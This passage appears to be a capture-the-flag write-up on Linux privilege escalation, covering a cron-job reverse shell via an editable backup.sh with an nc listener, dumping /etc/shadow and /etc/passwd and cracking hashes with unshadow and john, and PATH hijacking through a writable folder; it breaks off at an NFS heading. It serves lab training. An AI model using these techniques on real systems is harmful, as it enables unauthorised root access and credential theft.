 - `/home/karen/backup.sh` is accessible by our user and runs every minute
- Edit `backup.sh` and add a reverse shell
    - Some examples can be found [here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- Open a listener on attack machine - `nc -lvnp *port*`
- Once reverse shell as root reaches out to your attack machine, `find / -name "flag5.txt"`

 > <details><summary><code>cat /home/ubuntu/flag5.txt</code> returns </summary></details>

 ### What is Matt's password?

 - As root, `cat /etc/shadow` to get hashes and `cat /etc/passwd` to get user list
 - After getting files to attack machine, use `unshadow` to get crackable hashes
 
 > `john *unshadow output*` gives us **123456** as matt's password

 ## PATH

 - `echo $PATH` to show path variable
 - Show folders karen can write to with `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
    - `2>/dev/null` discards errors to null
    - `cut -d "/" -f 2,3` sets "/" as the delimiter and returns only the second and third fields
    - `grep -v proc` excludes results related to running processes
    - `sort -u` cuts out duplicates

### What is the odd folder you have write access for?

> karen has write access to **<code>/home/murdoch</code>**

### What is the content of the flag6.txt file?

- `/home/murdoch` contains `test` and `thm.py`
    - Running `./test` shows that the script is dependent on a file named "thm" which does not exist
- `vim thm` to create and edit the required file
    - The goal is to find a view the contents of `flag6.txt`
    - Write this simple script within `./thm`:
```
#!/bin/bash

loc=$(find / -name "flag6.txt" 2>/dev/null)
cat $loc
```

- `./test` should call the script within `/home/murdoch` which calls `./thm` with elevated permissions

 > <details><summary>This chain returns </summary></details>

 ## NFS

 ### How many mountable shares can you identify on the target system?
